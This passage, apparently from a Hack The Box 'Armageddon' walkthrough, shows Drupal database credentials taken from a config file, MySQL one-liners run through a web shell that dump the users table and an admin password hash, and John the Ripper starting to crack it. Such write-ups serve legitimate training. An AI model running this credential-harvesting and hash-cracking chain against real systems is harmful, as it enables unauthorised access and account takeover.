 ```php
                'username' => 'drupaluser',                                                                                                                                                                  
                'password' => 'CQHEy@9M*m23gBVj',                                                                                                                                                            
                'host' => 'localhost',                                                                                                                                                                       
                'port' => '',                                                                                                                                                                                
                'driver' => 'mysql',                                                                                                                                                                         
                'prefix' => '',                                                                                                                                                                              
              ),                                                                                                                                                                                             
            ),                                                                                                                                                                                               
          );
```

Worth noting that the fake shell isn't actually interactive, so one-liners are your friend. Running some MySQL one-liners using the credentials led me to a password hash for `brucetherealadmin`:

```shell
armageddon.htb>> mysql --user=drupaluser --pass='CQHEy@9M*m23gBVj' -e 'SHOW TABLES' Drupal
...
users
...
armageddon.htb>> mysql --user=drupaluser --pass='CQHEy@9M*m23gBVj' -e 'SELECT * FROM users' drupal
uid     name    pass    mail    theme   signature       signature_format        created access  login   status  timezone        language        picture init    data
0                                               NULL    0       0       0       0       NULL            0               NULL
1       brucetherealadmin       $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt admin@armageddon.eu                     filtered_html   1606998756      1607077194      1607076276      1 Europe/London            0       admin@armageddon.eu     a:1:{s:7:"overlay";i:1;}
armageddon.htb>>
```

With the hash in hand, I spun up john and cracked away:

```shell
┌──(kali@kali)-[~/htb/armageddon]
└─$ john hash                                                                                                                                                                                      
Using default input encoding: UTF-8                                                                                                                                                                
Loaded 1 password hash (Drupal7, $S$ [SHA512 128/128 AVX 2x])                                                                                                                                      
Cost 1 (iteration count) is 32768 for all loaded hashes                                                                                                                                            
Will run 4 OpenMP threads                                                                                                                                                                          
Proceeding with single, rules:Single                                                                                                                                                               
Press 'q' or Ctrl-C to abort, almost any other key for status                                                                                                                                      
```